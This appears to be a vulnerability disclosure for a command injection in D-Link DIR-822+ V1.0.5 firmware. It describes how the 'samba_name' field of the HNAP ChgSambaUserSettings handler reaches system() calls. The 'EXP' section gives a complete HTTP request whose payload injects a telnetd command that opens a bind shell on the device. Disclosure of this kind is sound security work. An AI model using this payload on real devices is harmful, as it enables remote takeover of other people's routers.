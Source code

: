 ## DIR-822+ Command Injection

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-822%2B

### Affected version

D-Link DIR-822+ V1.0.5 was found to contain a command injection in `ChgSambaUserSettings` function of `prog.cgi`, which allows remote attackers to execute arbitrary commands via shell

![image-20240421163220274](./img/4.png)

### Vulnerability details

Vulnerability occurs in `/HNAP1/ChgSambaUserSettings`. Attackers can control `v23` by setting the `samba_name`.

![image-20240421163827190](./img/1.png)

In line 81, attackers can control `v19` by setting the `samba_pwd`. Function `sub_41AD4C` was used to decrypt password `v19` with key `v5`, and get the plaintext `v18`. If successfully decrypted, the program will call system in line 87, otherwise go to line 93, and finally call system in 96. 

![image-20240421163827190](./img/2.png)

Anyway, system was called twice, and its parameter `v21` was passed by `v23`, which controlled by attackers.

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `samba_name`. 

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 215
Accept: application/json
HNAP_AUTH: 5E736BA3725CFF7870DC7A1B6B9512E6 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/ChgSambaUserSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=akiKeInk; PrivateKey=880D5E30644E82353544D9496CA35B50; timeout=51
Connection: close

{"ChgSambaUserSettings":{"samba_name":"`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`", "samba": "foo", "samba_readonly": "false", "samba_dir": "/home", "samba_num": "8", "samba_pwd": "111111111111"}}
```

![image-20240421163827190](./img/3.png)
